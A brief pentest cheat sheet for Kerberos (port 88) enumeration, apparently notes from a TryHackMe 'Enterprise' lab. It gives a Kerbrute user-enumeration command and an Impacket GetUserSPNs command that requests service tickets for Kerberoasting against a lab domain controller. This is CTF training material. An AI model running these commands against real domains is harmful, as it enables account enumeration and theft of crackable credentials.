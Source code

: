 # 88 (Kerberos)

## Enumeration

### Authenticated

#### Kerbrute

```
/opt/kerbrute/kerbrute_linux_amd64 userenum --dc 10.10.86.5 -d lab.enterprise.thm /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -o users.txt
```

GetUserSPNs

```
kali@kali:~/ctf/tryhackme/enterprise$ python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.55.72 LAB.ENTERPRISE.THM/nik
```
